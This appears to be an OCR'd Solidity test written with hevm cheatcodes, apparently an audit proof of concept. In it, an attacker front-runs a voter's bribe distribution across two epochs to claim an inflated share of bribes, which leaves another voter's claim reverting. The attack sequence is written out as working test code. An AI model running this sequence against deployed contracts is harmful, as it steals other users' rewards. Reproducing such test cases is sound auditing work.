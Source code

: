 ```

    // ------------------- Start epoch i+1
    hevm.warp(newEpoch() + 1);
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    hevm.startPrank(admin);
    // attacker front-runs the distribution and votes with balance X
    voter.vote(tokenId1, pools, weights, 0);
    // now he executes the distribution
    voter.distribute();
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

    // beef votes with balance X
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // ------------------- Start epoch i+2
    hevm.warp(newEpoch() + 1);
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    // distribution is executed
    voter.distribute();

    hevm.startPrank(admin);
    // attacker claims an inflated share
    voter.claimBribes(bribes, tokens, tokenId1);
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

    hevm.startPrank(beef);
    // beef tries to claim but his transaction reverts due to lack of funds
    voter.claimBribes(bribes, tokens, tokenId2);
    hevm.stopPrank();

}
```
